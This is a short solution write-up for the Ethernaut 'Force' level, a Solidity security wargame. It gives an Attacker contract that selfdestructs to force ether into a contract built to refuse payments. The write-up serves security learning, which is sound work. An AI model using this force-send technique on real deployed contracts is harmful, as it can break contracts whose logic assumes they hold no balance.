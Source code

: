 # [7. Force](https://ethernaut.openzeppelin.com/level/0x22699e6AdD7159C3C385bf4d7e1C647ddB3a99ea)

This contract is supposedly not accepting any paymnets. Well, it is possible to force money in a contract by `selfdestruct`'ing a contract with some balance, with the target contract as the address.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {

  constructor() payable {
  }

  function pwn(address _target) public {
    selfdestruct(payable(_target));
  }

  receive() external payable {}
  fallback() external payable {}
}
```

We create the above contract with some small amount of ether, and then call the `pwn` function to let it `selfdestruct` and transfer all of its balance to the target contract.
